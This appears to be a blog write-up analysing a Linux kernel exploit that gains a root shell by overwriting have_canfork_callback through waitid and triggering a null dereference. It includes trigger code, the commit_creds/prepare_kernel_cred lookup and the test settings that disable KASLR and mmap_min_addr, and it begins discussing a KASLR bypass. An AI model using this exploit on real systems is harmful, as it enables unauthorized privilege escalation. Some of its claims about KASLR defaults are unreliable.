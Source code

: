 ```c
        perror("fork()");
        return EXIT_FAILURE;
    }
 
    if(pid == 0) {
        _exit(0xDEADBEEF);
        perror("son");
        return EXIT_FAILURE;
    }
 
    siginfo_t *ptr = (siginfo_t*)strtoul(av[1], (char**)0, 0);
    waitid(P_PID, pid, ptr, WEXITED | WSTOPPED | WCONTINUED);
 
    // TRIGGER
    pid = fork();
    printf("fork_ret = %d\n", pid); 
    if (pid > 0)
        get_shell();
    return EXIT_SUCCESS;
}
```
What 'the maker' said about that code, in short.
> For exploitation, trigger null dereference.
> Overwrite have_canfork_callback (.bss seg in kernel),
> if have_canfork_callback is set to a value other than 0, unset callback (null) is occurred.
> ...

## But...
But... Let's talk about *my small option* **only about** that *payload*, **Only talk about that payload**, i can say that it's triggered, but... something is missing(?).
Of course maybe, that payload was made for **trigger purposes only**.

Because of the testing environments. *KASLR* is off and *mmap min address* is 0 for triggering null dereference.
> -nokaslr
> sysctl -w vm.mmap_min_addr=0

### 1. KASLR Bypass
Let's talk about it first, **kernel-land ASLR**, **KASLR** is supported from *linux kernel 4.4*. When we boot with *kaslr option*, then *kaslr* will be applied. If not, *kaslr* is off.
Normally we just boot the OS, then *kaslr* is off.

And another question is below.
```c
    prepare_kernel_cred = (prepare_kernel_cred_t)get_kernel_sym("prepare_kernel_cred");
    commit_creds = (commit_creds_t)get_kernel_sym("commit_creds");
```
This part from the code is just getting the addresses from */proc/kallsyms*.
But actually, it does not work as well because if we read the address from */proc/kallsysms* without *root perm* and *kaslr*, the address would be 0.
In summary,
* with *nokaslr*, **user gets** 0, **root** gets **exact address**.
* with *kaslr*, can read but all time **random address**. (try it yourself!)
